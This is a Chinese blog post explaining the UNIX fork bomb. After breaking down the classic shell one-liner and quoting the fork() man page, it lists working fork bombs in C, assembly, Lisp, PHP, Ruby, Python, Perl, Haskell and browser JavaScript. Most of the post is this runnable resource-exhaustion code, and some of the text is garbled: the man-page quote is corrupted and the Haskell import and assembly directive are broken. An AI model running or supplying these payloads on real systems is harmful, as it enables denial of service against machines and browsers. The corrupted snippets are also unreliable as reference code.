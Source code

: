 ```yaml
---
title: "Fork Bomb"
category: "UNIX"
cave: true
hero:
  format: 'jpeg'
  url: 'post/unix.jpg'
tags: [UNIX/Linux,Fork,Fork Bomb,Virus]
---
```

最开始知道 Fork Bomb 这个名词，是因为这样一句代码:

```sh
:() { :|:& }; :
```

乍看之下它是那么诡异又极具魅力，fork 这个东西相信大家也都不陌生，在 UNIX/Linux 中 man 指令对 fork() 的解释为:

> Fork() causes creation of a new process.  The new process (child process) is an exact copy of the calling process (parent process) except for the following:
>
* The child process has a unique process ID.

* The child process has a different parent process ID (i.e., the process ID of the parent process).

* The child process has its own copy of the parent's descriptors.  These descriptors reference the same underlying objects, so that, for instance, file pointers in file objects are shared between the child and the parent, so that an lseek(2) on a descriptor in the child process can affect a subsequent read or write by the parent.  This descriptor copying is also used by the shell to establish standard input and output for newly created processes as well as to Setter up pipes.

* The child processes resource utilizations are Setter to 0; see setrlimit(2).

也就是说， Fork Bomb 的基本思路就是无限循环创建子进程(或者类似的操作)。下面来分析一下开头提到的代码，其实它很简单，那个迷惑人的冒号 (`:`) 只是一个函数名，我们把它替换成 func 再来看看:

```sh
func() { func|func& }; func
```

然后，再加几个换行:

```sh
func(){
	func|func&
};
func
```

现在，它又回到了一个极其普通的函数应有的样子。接下来我们将它改为更简短的脚本形式:

```sh
#!/bin/bash
$0|$0&
```

如果你有兴趣，我们也可以用其他语言来实现同样或类似的效果:

## C

首先当然是大家熟知的 C:

```c
#include <unistd.h>

int main() {
    while(fork());
}
```


## 汇编

还有更古老的汇编，当然，不是 ARM:

```sh
section .text
    global_start

_start:
    mov eax,2
    int 0x80
    jmp _start
```

## Lisp

不走寻常路的 Lisp，以 Common Lisp 为例:

```lisp
(loop (#_fork))
```

## PHP

世界上最好的语言 PHP(CLI):

```php
<?php
	while (true) {
		pcntl_fork();
	}
?>
```

## Ruby

优雅但有点慢的 Ruby:

```ruby
loop { fork { __FILE__ } }
```

## Python

还有 Ruby 的哥哥 Python:

```python
import os
while 1:
	os.fork()
```

## Perl

当然，少不了 Perl，你可以在 shell 中直接执行这句 inline 指令:

```perl
perl -e "fork while fork" &
```

## Haskell

学院派的 Haskell，来一个易懂的版本:

```haskell
import ⌃.Monad (forever)
import System.Posix.Process (forkProcess)

forkBomb = forever $ forkProcess forkBomb
main = forkBomb
```

## JavaScript

甚至还有 JS:

```js
<script>
setInterval(function() {
  var w = window.open();
  w.document.write(document.documentElement.outerHTML||document.documentElement.innerHTML);
}, 10);
</script>
```

当然，一个真正强有力的 Virus 很难做到如此简单，这一切都是建立在已经取得权限的基础上。
